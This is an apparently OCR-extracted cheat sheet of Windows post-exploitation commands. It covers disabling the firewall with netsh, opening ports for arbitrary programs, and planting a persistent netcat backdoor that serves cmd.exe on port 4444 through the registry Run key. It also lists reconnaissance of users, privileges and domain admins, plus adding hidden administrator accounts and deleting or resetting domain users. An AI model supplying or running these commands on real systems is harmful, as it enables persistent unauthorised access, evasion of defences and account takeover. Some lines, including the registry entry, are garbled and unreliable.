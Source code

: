 **Query state of firewall**:

netsh firewall show state

**Disable firewall**

netsh.exe firewall set opmode mode=disable profile=all

**Allow service through firewall**

netsh.exe firewall set portopening tcp 123 MYSERVICE enable all

netsh.exe firewall set allowedprogram C:\MYPROGRAM.exe

HKLM\\software\\microsoft\\windows\\ currentversion\\run –d ‘C:\windows\system32\nc.exe -Ldp 4444 -e cmd.exe’ –v netcat

netsh firewall set allowedprogram c:\nc.exe allow_nc ENABLE


**Query current user and privilege information**

whoami

whoami /all

whoami /user

whoami /groups

whoami /priv

**[Users]**

net users: list users

**For more info on a user**:

net user <username> (for local user)
  
net user <username> /domain (for a domain user)

**View domain admins**:

net group "Domain Admins" /domain

**View name of domain controller**:

reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Group Policy\History" /v DC
  
**Add user**:

net users <username> <password> /add

**Add user to local administrators group**:

net localgroup administrators <username> /add

**Delete a user**:

net users username /delete /domain

**Change user's password**:

net users <username> <new_password>
